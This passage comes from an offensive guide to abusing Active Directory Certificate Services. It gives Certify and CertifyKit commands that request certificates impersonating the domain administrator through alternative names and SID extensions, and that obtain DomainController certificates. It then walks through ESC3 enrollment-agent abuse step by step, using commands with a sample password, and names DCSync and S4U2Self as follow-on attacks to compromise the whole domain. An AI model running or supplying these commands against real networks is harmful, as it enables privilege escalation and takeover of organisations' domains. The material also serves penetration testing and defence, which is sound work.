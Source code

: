 ```powershell
CertifyKit.exe request /ca:ca.corp\CA /template:'SecureUpdate' /altname:administrator /domain:domain.corp /alter /sidextension:S-1-5-21-2928296033-1822922359-262865665-500
```

This command targets the `SecureUpdate` template, specifies the alternative name as `administrator`, and includes a SID extension, effectively enabling a smartcard logon attack.

After escalating to Domain Admin (DA) privileges, the **Domain Controller (DC) account** can be targeted. With DC privileges, it's possible to perform **DCSync** or **S4U2Self** attacks, ultimately compromising the entire domain. 

**Here’s an example command to request a machine certificate**:
```powershell
Certify.exe request /ca:ca.corp\CA /template:DomainController /machine
```

This request for a machine certificate leverages the `DomainController` template to authenticate as a DC, allowing further attacks against domain infrastructure.




## ESC3
To exploit ESC3, you need two certificate templates configured as follows:

- **Template 1**: Provides an **Enrollment Agent Certificate**
  - **Certificate Request Agent EKU** (`1.3.6.1.4.1.311.20.2.1`) is enabled.
  - **Enrollment Rights** are granted to a user that we control.

- **Template 2**: Allows Enrollment Agent Certificate to be used **on-behalf-of**
  - **Client Authentication EKU** (`1.3.6.1.5.5.7.3.2`) is enabled.
  - **Application Policy Issuance Requirement** with **Authorized Signatures Required** set to 1.
  - **Certificate Request Agent EKU** is enabled.
  - **Enrollment Rights** are granted to a user that we control.

### ESC3 Attack Process
1. **Step 1**: Enroll in a template that has the **Certificate Request Agent EKU** (Template 1) to obtain an **Enrollment Agent Certificate**.
2. **Step 2**: Use the Enrollment Agent certificate to enroll in another template (Template 2) on behalf of another user.

#### Step 1: Request Enrollment Agent Certificate

**This command enrolls in Template 1 to receive an Enrollment Agent certificate**:
```powershell
Certify.exe request /ca:ca.corp\CA /template:StoreDataRecovery-Agent /user:certstore /domain:domain.corp
```

#### Step 2: Request Certificate on Behalf of Another User

**Using the Enrollment Agent certificate obtained in Step 1, this command enrolls on behalf of another user**:
```powershell
Certify.exe request /ca:ca.corp\CA /template:StoreDataRecovery /onbehalfof:account\administrator /enrollcert:'C:\certs\esc3-enrollmentAgent.pfx' /enrollcertpw:'Passw0rd!' /domain:domain.corp
```
